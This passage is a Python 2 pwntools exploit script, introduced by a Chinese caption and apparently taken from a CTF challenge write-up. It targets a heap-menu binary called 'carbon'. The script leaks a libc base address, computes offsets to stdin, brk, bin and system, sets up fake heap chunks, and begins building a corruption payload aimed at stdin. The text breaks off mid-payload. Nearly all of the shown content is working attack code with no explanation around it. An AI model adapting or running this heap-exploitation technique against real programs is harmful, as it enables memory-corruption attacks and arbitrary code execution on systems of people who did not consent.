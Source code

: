 漏洞利用 Python 脚本如下：

```python
#!/usr/bin/env python2
from pwn import *
import sys

context(arch="amd64", log_level="debug")

if len(sys.argv) >= 3:
    p = remote(sys.argv[1], sys.argv[2])
else:
    p = process("./carbon")

def alloc(sz, ctx='\n', ans='N'):
    p.sendlineafter(">", '1')
    p.sendlineafter("What is your prefer size? >", str(sz))
    p.sendlineafter("Are you a believer? >", ans)
    p.sendafter("Say hello to your new sleeve >", ctx)

def free(idx):
    p.sendlineafter(">", '2')
    p.sendlineafter("What is your sleeve ID? >", str(idx))

def edit(idx, ctx):
    p.sendlineafter(">", '3')
    p.sendlineafter("What is your sleeve ID? >", str(idx))
    p.send(ctx)

def view(idx):
    p.sendlineafter(">", '4')
    p.sendlineafter("What is your sleeve ID? >", str(idx))
    return p.recvuntil("Done.", True)

alloc(0x1, 'A') #0

libc_base = u64(view(0).ljust(8, '\x00')) - 0x292e41

info("libc base: 0x%x", libc_base)
stdin   = libc_base + 0x292200
binmap  = libc_base + 0x292ac0
brk     = libc_base + 0x295050
bin     = libc_base + 0x292e40
system  = libc_base + 0x42688

# 1. construct fake chunks
alloc(0x10) #1
alloc(0x10) #2, prevent consolidation
alloc(0x10) #3
alloc(0x10) #4, prevent consolidation
alloc(0x10) #5
alloc(0x10) #6, prevent consolidation
alloc(0x10) #7
alloc(0x10) #8, prevent consolidation

free(1)
free(3)

payload  = 'X' * 0x10
payload += p64(0x21) * 2 + 'X' * 0x10
payload += p64(0x21) + p64(0x20) + p64(stdin - 0x10) * 2
payload += p8(0x20)
payload += '\n'

```
